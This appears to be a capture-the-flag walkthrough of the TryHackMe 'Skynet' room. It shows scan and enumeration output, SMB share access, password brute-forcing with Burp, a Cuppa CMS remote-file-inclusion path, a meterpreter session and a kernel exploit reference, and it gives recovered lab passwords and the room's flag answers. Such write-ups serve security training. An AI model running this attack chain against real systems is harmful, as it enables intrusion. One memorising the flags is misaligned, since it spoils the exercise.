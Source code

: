 ```yaml
---
title: Skynet
author: 0xskar
date: 2022-06-22 18:32:00 -0500
categories: [Tryhackme, Walkthrough]
tags: [Enumeration, enum4linux, smb, linux, gobuster, burp]
---
```


Hacking a vulnerable Terminator themed Linux machine.

[https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

![](/assets/skynet.webp)

* * *

## Task 1 - Deploy the Vulerable Machine

1. Initial Nmap Scans

```shell
sudo nmap -Pn -sS -T4 -p- 10.10.70.205 -oN nmap_initial.txt
Nmap scan report for 10.10.70.205
Host is up (0.18s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
````

```shell
sudo nmap -sC -sV -T4 10.10.70.205 -p22,80,110,139,143,445 -oN nmap_second.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 10:06 PDT
Nmap scan report for 10.10.70.205
Host is up (0.18s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES SASL PIPELINING CAPA TOP UIDL AUTH-RESP-CODE
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: capabilities ENABLE Pre-login LITERAL+ ID LOGIN-REFERRALS SASL-IR post-login IMAP4rev1 have OK IDLE more listed LOGINDISABLEDA0001
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-06-22T17:06:34
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2022-06-22T12:06:34-05:00
```

## Enum4Linux

- ``enum4linux -a 10.10.70.205 -R 139,445``
- Notes from Scan:

```shell
[+] Got OS info for 10.10.70.205 from srvinfo:                                                          SKYNET         Wk Sv PrQ Unx NT SNT skynet server (Samba, Ubuntu) 
 =======================================( Users on 10.10.70.205 )=======================================
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: milesdyson       Name:   Desc:                                                                                              
user:[milesdyson] rid:[0x3e8]
==================================( Share Enumeration on 10.10.70.205 )=================================
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))

        Server               Comment
        ---------            -------
        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET

[+] Attempting to map shares on 10.10.70.205                                                            //10.10.70.205/print$   Mapping: DENIED Listing: N/A Writing: N/A                                                                                                 
//10.10.70.205/anonymous        Mapping: OK Listing: OK Writing: N/A
//10.10.70.205/milesdyson       Mapping: DENIED Listing: N/A Writing: N/A

[E] Cant understand response                                                                                                                                            
NT_STATUS_OBJECT_NAME_NOT_FOUND listing 

//10.10.70.205/IPC$     Mapping: N/A Listing: N/A Writing: N/A

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                
S-1-5-21-2393614426-3774336851-1116533619-501 SKYNET\nobody (Local User)                                                                                                 
S-1-5-21-2393614426-3774336851-1116533619-513 SKYNET\None (Domain Group)
S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
```

## SMB Client

- ``smbclient //10.10.70.205/anonymous -U nobody -p 139 --workgroup=SKYNET`` - log into smbclient with user nobody 
- get all the loot ``log1.txt`` is a wordlist maybe something useful.

Connect to miles SMB

```shell
smbclient '\\server\share'
mask ""
recurse ON
prompt OFF
mget *
```

## Gobuster

- gobuster dir -u http://10.10.70.205:80/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 100 -e

```shell
http://10.10.70.205:80/admin                (Status: 301) [Size: 312] [--> http://10.10.70.205/admin/]
http://10.10.70.205:80/css                  (Status: 301) [Size: 310] [--> http://10.10.70.205/css/]  
http://10.10.70.205:80/js                   (Status: 301) [Size: 309] [--> http://10.10.70.205/js/]   
http://10.10.70.205:80/config               (Status: 301) [Size: 313] [--> http://10.10.70.205/config/]
http://10.10.70.205:80/ai                   (Status: 301) [Size: 309] [--> http://10.10.70.205/ai/]    
http://10.10.70.205:80/squirrelmail         (Status: 301) [Size: 319] [--> http://10.10.70.205/squirrelmail/]
```


## Answer the questions below

**What is Miles password for his emails?**

- Capture in burpsuite proxy and insert log1.txt for password list ``cyborg007haloterminator``
- here we get milesdysons new samba password ``)s{A&2Z=F^n_E.B``

**What is the hidden directory?**

- checking the /notes/ folder in miles samba i found ``important.txt``
- leads us to ``/45kra24zxs28v3yd``
- which enumetation leads us to ``/45kra24zxs28v3yd/administrator``
- using searchsploit for cuppa we can find vulns 
- ``cat /usr/share/exploitdb/exploits/php/webapps/25971.txt``
- php code injection @ ``/alerts/alertConfigField.php?urlConfig=``

- dump for the cuppa config

```php
<?php 
   class Configuration{
      public $host = "localhost";
      public $db = "cuppa";
      public $user = "root";
      public $password = "password123";
      public $table_prefix = "cu_";
      public $administrator_template = "default";
      public $list_limit = 25;
      public $token = "OBqIPqlFWf3X";
      public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
      public $upload_default_path = "media/uploadsFiles";
      public $maximum_file_size = "5242880";
      public $secure_login = 0;
      public $secure_login_value = "";
      public $secure_login_redirect = "";
   } 
?>
```

sql

**What is the vulnerability called when you can include a remote file?**

- remote file inclusion
- ``/etc/issue`` - Ubuntu 16.04.6 LTS 
- ``https://www.exploit-db.com/exploits/45010 ``

**What is the user flag?**

- 7ce5c2109a40f958099283600a9ae807

**What is the root flag?**

1. run linpeas.sh for enumeration

```shell
meterpreter > sysinfo
Computer     : 10.10.221.179
OS           : Ubuntu 16.04 (Linux 4.8.0-58-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

2. compile and run https://www.exploit-db.com/exploits/44654
3. travel to /root/

- 3f0372db24753accc7179a282cd6a949


* * * 
